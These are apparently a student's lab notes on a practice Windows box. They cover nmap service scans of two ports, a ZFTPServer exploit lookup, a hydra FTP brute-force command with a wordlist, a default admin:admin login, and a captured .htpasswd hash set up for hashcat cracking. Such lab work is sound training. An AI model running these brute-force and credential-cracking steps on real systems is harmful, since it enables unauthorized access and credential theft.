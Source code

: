 # Port 242

Google how to connect to this and google said it depends what service it is so.. ran a service scan 

```
nmap -sV -sC -p 242 192.168.184.46 -oN two-nmap-scan
```

![[PG/Windows/attachments/Pasted image 20250702213835.png]]
- looks like I can access from web browser 

Here's a login! Enter given creds 
![[PG/Windows/attachments/Pasted image 20250702214046.png]]
![[PG/Windows/attachments/Pasted image 20250702214134.png]]
- shit. given creds no work.
- neither does admin:admin
# Port 3145

Also going to do a service scan

```
nmap -sV -sC -p 3145 192.168.184.46 -oN three-nmap-scan
```

![[PG/Windows/attachments/Pasted image 20250702214232.png]]
- ZFTPServer 👀

Googling FTP exploits for this version 

![[PG/Windows/attachments/Pasted image 20250702215733.png]]

https://www.exploit-db.com/exploits/18235

Not sure how deleting files will help me

Brute force FTP
```
sudo hydra -L names.txt -P '/usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt' -s 21 ftp://$IP
```

can login with admin:admin..

![[PG/Windows/attachments/Pasted image 20250703001129.png]]
Got creds from .htpasswd
![[PG/Windows/attachments/Pasted image 20250703001105.png]]
```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Hashcat mode is 1600
![[PG/Windows/attachments/Pasted image 20250703001333.png]]

